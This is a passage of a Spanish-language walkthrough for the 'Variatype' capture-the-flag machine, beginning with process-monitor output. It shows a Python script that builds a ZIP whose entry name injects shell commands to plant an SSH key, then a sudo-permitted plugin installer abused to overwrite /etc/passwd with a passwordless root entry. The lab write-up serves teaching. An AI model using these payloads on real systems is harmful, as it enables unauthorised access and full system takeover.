2026/03/16 06:42:01 CMD: UID=1000  PID=99239  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99240  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99241  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99242  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99243  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99244  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_HegsfIWKULA.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_HegsfIWKULA.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/16 06:42:01 CMD: UID=1000  PID=99245  | 
2026/03/16 06:42:01 CMD: UID=1000  PID=99246  | mv variabype_HegsfIWKULA.ttf /home/steve/processed_fonts/ 
2026/03/16 06:42:01 CMD: UID=1000  PID=99247  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99248  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:01 CMD: UID=1000  PID=99249  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_y6HgcgmiTVc.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_y6HgcgmiTVc.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/16 06:42:01 CMD: UID=1000  PID=99250  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_y6HgcgmiTVc.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_y6HgcgmiTVc.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/16 06:42:02 CMD: UID=1000  PID=99251  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:02 CMD: UID=1000  PID=99252  | 
2026/03/16 06:42:02 CMD: UID=1000  PID=99253  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:02 CMD: UID=1000  PID=99254  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:02 CMD: UID=1000  PID=99255  | timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_z1DA-HvtHMo.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_z1DA-HvtHMo.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/16 06:42:02 CMD: UID=1000  PID=99256  | /usr/local/src/fontforge/build/bin/fontforge -lang=py -c 
import fontforge
import sys
try:
    font = fontforge.open('variabype_z1DA-HvtHMo.ttf')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process variabype_z1DA-HvtHMo.ttf: {e}', file=sys.stderr)
    sys.exit(1)
 
2026/03/16 06:42:02 CMD: UID=1000  PID=99257  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:02 CMD: UID=1000  PID=99258  | /bin/bash /home/steve/bin/process_client_submissions.sh 
2026/03/16 06:42:02 CMD: UID=1000  PID=99259  | /bin/bash /home/steve/bin/process_client_submissions.sh 
^CExiting program... (interrupt)
```

Al monitorizar los procesos del sistema, observamos que el servicio **Cron** ejecuta periódicamente un script ubicado en:

```
/home/steve/bin/process_client_submissions.sh
```

Este script se ejecuta con el usuario **`steve`** y se encarga de procesar automáticamente las fuentes que los usuarios suben al sistema.

Para ello utiliza **FontForge**, una herramienta especializada en la manipulación y análisis de fuentes tipográficas.

Cada archivo `.ttf` es procesado mediante un pequeño script en Python que intenta abrir la fuente y extraer información básica como:

- `familyname`
- `fontname`

El código que se ejecuta internamente es similar a este:

```python
font = fontforge.open('variabype_FhbnfOjo9A8.ttf')
family = getattr(font, 'familyname', 'Unknown')
style = getattr(font, 'fontname', 'Default')
```

Además, cada ejecución se limita mediante:

```
timeout 30
```

Esto se hace para evitar que una fuente maliciosa o corrupta bloquee el proceso indefinidamente.

Una vez procesadas correctamente, las fuentes son movidas al directorio:

```
/home/steve/processed_fonts/
```

Esto confirma que **todos los archivos de fuentes subidos al sistema son procesados automáticamente por un pipeline interno**, lo que puede resultar interesante desde el punto de vista de explotación si logramos manipular los archivos que dicho script analiza.
## Análisis del script de procesamiento

Si exploramos el directorio `/opt` veremos que existe una copia de seguridad del script que se está ejecutando:

```shell
ls -la /opt
```

Respuesta:

```
total 20
drwxr-xr-x  4 root      root      4096 Mar  9 08:29 .
drwxr-xr-x 18 root      root      4096 Mar  9 08:29 ..
drwxr-xr-x  3 root      root      4096 Mar  9 08:29 font-tools
-rwxr-xr--  1 steve     steve     2018 Feb 26 07:50 process_client_submissions.bak
drwxr-xr-x  4 variatype variatype 4096 Mar  9 08:29 variatype
```

> process_client_submissions.bak

```bash
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

Abrimos el archivo:

```
process_client_submissions.bak
```

Este script define un pipeline completo para procesar archivos de fuentes subidos por los usuarios.

Entre los puntos importantes del script podemos observar:

- Los archivos se procesan desde:

```
/var/www/portal.variatype.htb/public/files
```

- Las fuentes procesadas se mueven a:

```
/home/steve/processed_fonts
```

- Los archivos sospechosos se envían a:

```
/home/steve/quarantine
```

También se define una lista de extensiones permitidas:

```bash
EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)
```

Esto es especialmente interesante, ya que **el sistema también permite subir archivos comprimidos**, lo que podría abrir la puerta a posibles vulnerabilidades durante su procesamiento.
## CVE-2024-25082

<figure><figcaption></figcaption></figure>

Analizando el comportamiento del pipeline y cómo procesa los archivos comprimidos, podemos intentar explotar una vulnerabilidad conocida relacionada con **procesamiento inseguro de archivos ZIP**.

La idea inicial consiste en intentar un ataque tipo **Zip Slip**, utilizando la librería `zipfile` de Python (ya que la herramienta `zip` no está instalada en el sistema).

El objetivo sería escribir un archivo en:

```
/home/steve/.ssh/authorized_keys
```

para poder añadir nuestra clave pública y conectarnos posteriormente por **SSH** como el usuario `steve`.
### Generación de clave SSH

En nuestra máquina atacante generamos una clave RSA:

```shell
ssh-keygen -t rsa -b 4096 -N ""
```

Respuesta:

```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
/home/kali/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:yxyQl/n0OBaC2/IvYRlYzXAQCKXYVvMy7y0s5dufY+M kali@attacker
The key's randomart image is:
+---[RSA 4096]----+
|    .o+.+*.      |
|   o o.=.+o      |
|  . + *o* o      |
|   .  .O.+ +     |
|      o So= .    |
|       X+= .     |
|      ..X..      |
|       ..=  +.   |
|        ..o+Eo   |
+----[SHA256]-----+
```

Dejamos la contraseña vacía para facilitar la conexión automática.

Esto generará:

```
~/.ssh/id_rsa
~/.ssh/id_rsa.pub
```

Copiamos la clave pública al directorio actual y levantamos un servidor HTTP para transferirla a la máquina víctima.

```shell
cp ~/.ssh/id_rsa.pub .
python3 -m http.server 80
```

En la máquina víctima descargamos la clave:

```shell
cd /tmp
wget http://<IP_ATTACKER>/id_rsa.pub
```
## Creación del exploit

Una vez tenemos nuestra clave pública en la máquina víctima, vamos a crear un exploit en Python que genere un archivo ZIP malicioso.

> exploit.py

```python
import zipfile

pub = open("id_rsa.pub").read().strip()

payload = f'x$(mkdir -p /home/steve/.ssh && echo "{pub}" >> /home/steve/.ssh/authorized_keys && chmod 700 /home/steve/.ssh && chmod 600 /home/steve/.ssh/authorized_keys).ttf'

with zipfile.ZipFile("exploit.zip","w") as z:
    z.writestr(payload, b"A"*100)

print("[+] ZIP malicioso creado: exploit.zip")
```

---

> Info del exploit.py

Anteriormente, al monitorizar los procesos del sistema, observamos que cuando el pipeline detecta un archivo `.zip`, ejecuta un comando similar a este:

```bash
sh -c ( cd /tmp/ffarchive-100086-1 ; unzip /var/www/portal.variatype.htb/public/files/exploit.zip <PATH_DESCOMPRESION> ) > /dev/null
```

El problema es que **el nombre del archivo dentro del ZIP no se sanitiza correctamente antes de ser utilizado en el shell**.

Esto permite introducir **inyecciones de comandos** mediante sustitución de comandos de Bash:

```
$(comando)
```

Aprovechando esta debilidad podemos crear un archivo dentro del ZIP con un nombre como:

```
x$(COMANDO).ttf
```

Cuando el sistema intenta procesar el archivo, el shell evaluará el contenido de `$(...)` ejecutando los comandos incluidos.

En nuestro caso utilizamos esta técnica para ejecutar:

```bash
mkdir -p /home/steve/.ssh  
echo "ssh-rsa AAAA...." >> /home/steve/.ssh/authorized_keys  
chmod 700 /home/steve/.ssh  
chmod 600 /home/steve/.ssh/authorized_keys
```

De esta forma añadimos nuestra clave pública al archivo `authorized_keys` del usuario `steve`.

El comando completo que termina ejecutándose en el sistema sería similar a:

```bash
sh -c ( cd /tmp/ffarchive-100438-1 ; unzip exploit.zip x$(mkdir -p /home/steve/.ssh && echo "ssh-rsa AAAA.... kali@attacker" >> /home/steve/.ssh/authorized_keys && chmod 700 /home/steve/.ssh && chmod 600 /home/steve/.ssh/authorized_keys).ttf )
```

---
## Ejecución del exploit

Generamos el ZIP malicioso:

```shell
python3 exploit.py
```

Respuesta:

```
[+] ZIP malicioso creado: exploit.zip
```

Movemos el archivo al directorio donde el pipeline recoge los archivos para procesarlos:

```shell
mv exploit.zip /var/www/portal.variatype.htb/public/files/
```

Al cabo de unos segundos, el servicio **Cron** ejecutará el pipeline y procesará nuestro archivo ZIP, ejecutando el payload.
## Acceso como usuario `steve`

Finalmente, desde nuestra máquina atacante intentamos conectarnos mediante SSH utilizando nuestra clave privada:

```shell
ssh -i ~/.ssh/id_rsa steve@<IP>
```

Respuesta:

```
Linux variatype 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar 16 07:36:16 2026 from 10.10.14.238
steve@variatype:~$ whoami
steve
```

Confirmamos que hemos accedido correctamente como el usuario **steve**, por lo que ya podemos leer la **flag de usuario**.

> user.txt

```
d255eaba756113eed762c6ef1d91ef69
```
# Escalate Privileges

Si hacemos ``sudo -l`` veremos lo siguiente:

```
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

Observamos que el usuario `steve` puede ejecutar el script:

```
/opt/font-tools/install_validator.py
```

como el usuario **root** sin necesidad de contraseña (`NOPASSWD`).  
Además, el uso del comodín `*` permite pasar **cualquier argumento** al script, lo cual puede resultar peligroso si el script no valida correctamente los parámetros que recibe.

Por tanto, el siguiente paso será **analizar el script** para buscar posibles vulnerabilidades.
## Análisis del script

> install_validator.py

```python
#!/usr/bin/env python3
"""
Font Validator Plugin Installer
--------------------------------
Allows typography operators to install validation plugins
developed by external designers. These plugins must be simple
Python modules containing a validate_font() function.

Example usage:
  sudo /opt/font-tools/install_validator.py https://designer.example.com/plugins/woff2-check.py
"""

import os
import sys
import re
import logging
from urllib.parse import urlparse
from setuptools.package_index import PackageIndex

# Configuration
PLUGIN_DIR = "/opt/font-tools/validators"
LOG_FILE = "/var/log/font-validator-install.log"

# Set up logging
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s [%(levelname)s] %(message)s',
    handlers=[
        logging.FileHandler(LOG_FILE),
        logging.StreamHandler(sys.stdout)
    ]
)

def is_valid_url(url):
    try:
        result = urlparse(url)
        return all([result.scheme in ('http', 'https'), result.netloc])
    except Exception:
        return False

def install_validator_plugin(plugin_url):
    if not os.path.exists(PLUGIN_DIR):
        os.makedirs(PLUGIN_DIR, mode=0o755)

    logging.info(f"Attempting to install plugin from: {plugin_url}")

    index = PackageIndex()
    try:
        downloaded_path = index.download(plugin_url, PLUGIN_DIR)
        logging.info(f"Plugin installed at: {downloaded_path}")
        print("[+] Plugin installed successfully.")
    except Exception as e:
        logging.error(f"Failed to install plugin: {e}")
        print(f"[-] Error: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print("Usage: sudo /opt/font-tools/install_validator.py <PLUGIN_URL>")
        print("Example: sudo /opt/font-tools/install_validator.py https://internal.example.com/plugins/glyph-check.py")
        sys.exit(1)

    plugin_url = sys.argv[1]

    if not is_valid_url(plugin_url):
        print("[-] Invalid URL. Must start with http:// or https://")
        sys.exit(1)

    if plugin_url.count('/') > 10:
        print("[-] Suspiciously long URL. Aborting.")
        sys.exit(1)

    install_validator_plugin(plugin_url)

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[-] This script must be run as root (use sudo).")
        sys.exit(1)
    main()
```

El propósito del script es permitir que los operadores instalen **plugins de validación de fuentes tipográficas** descargándolos desde una URL externa.

Para ello utiliza la librería `setuptools`:

```python
from setuptools.package_index import PackageIndex
```

y posteriormente descarga el archivo indicado mediante:

```python
downloaded_path = index.download(plugin_url, PLUGIN_DIR)
```

donde:

```python
PLUGIN_DIR = /opt/font-tools/validators
```

Es decir, el script descarga el plugin indicado por URL y lo guarda dentro del directorio:

```
/opt/font-tools/validators
```

El problema es que **no se valida correctamente el nombre del archivo descargado**, lo que permite manipular la ruta final donde se guardará el archivo.
## Vulnerabilidad

La función `PackageIndex.download()` utiliza internamente operaciones similares a:

```python
os.path.join(PLUGIN_DIR, filename)
```

Sin embargo, si el **nombre del archivo comienza con una ruta absoluta**, por ejemplo:

```
/etc/passwd
```

entonces `os.path.join()` **ignora el directorio base** y utiliza directamente la ruta absoluta.

Ejemplo:

```python
os.path.join("/opt/font-tools/validators", "/etc/passwd")
```

resultado:

```
/etc/passwd
```

Esto significa que es posible **escribir archivos arbitrarios en el sistema como root**, lo que constituye una vulnerabilidad de **Arbitrary File Write**.

Para aprovechar este comportamiento, podemos utilizar **URL encoding** para forzar que la ruta descargada sea absoluta.
## Preparando el exploit

Primero creamos un archivo `passwd` en nuestra máquina atacante con el contenido que queremos escribir en `/etc/passwd`.

> passwd

```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
variatype:x:102:110::/nonexistent:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
```

En este caso hemos dejado la cuenta `root` **sin contraseña** para poder cambiar directamente al usuario root mediante `su`.
## Servidor HTTP malicioso

Creamos un pequeño servidor HTTP en Python que siempre devuelva nuestro archivo `passwd`.

> server.py

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

data = open("passwd","rb").read()

class H(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Length", str(len(data)))
        self.end_headers()
        self.wfile.write(data)

    def log_message(self, format, *args):
        pass

HTTPServer(("0.0.0.0", 7755), H).serve_forever()
```

Lo ejecutamos con:

```shell
python3 server.py
```
## Explotación

Ahora ejecutamos el script vulnerable utilizando **URL encoding** para forzar que el archivo descargado se escriba en `/etc/passwd` con (``%2F`` = ``/``).

```shell
sudo /usr/bin/python3 /opt/font-tools/install_validator.py http://<IP_ATTACKER>:7755/%2Fetc%2Fpasswd
```

Respuesta:

```
2026-03-16 08:10:58,872 [INFO] Attempting to install plugin from: http://10.10.14.238:8889/%2Fetc%2Fpasswd
2026-03-16 08:10:58,882 [INFO] Downloading http://10.10.14.238:8889/%2Fetc%2Fpasswd
2026-03-16 08:10:58,963 [INFO] Plugin installed at: /etc/passwd
[+] Plugin installed successfully.
```

Podemos comprobar que el archivo se ha sobrescrito correctamente:

```shell
cat /etc/passwd
```

Respuesta:

```
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
steve:x:1000:1000:steve,,,:/home/steve:/bin/bash
variatype:x:102:110::/nonexistent:/usr/sbin/nologin
_laurel:x:999:996::/var/log/laurel:/bin/false
```

Veremos que se modifico de forma satisfactoria, por lo que ya podremos escalar a ``root`` sin necesidad de proporcionar una contraseña.
## Obtener root

Ahora simplemente cambiamos al usuario root:

```shell
su root
```

Respuesta:

```
root@variatype:/home/steve# whoami
root
```

De esta forma obtenemos una shell como **root** sin necesidad de proporcionar una contraseña.

Vamos a leer la ``flag`` de ``root``.

> root.txt

```
a3f12429aa5c502406cf9118f6beb1d9
```

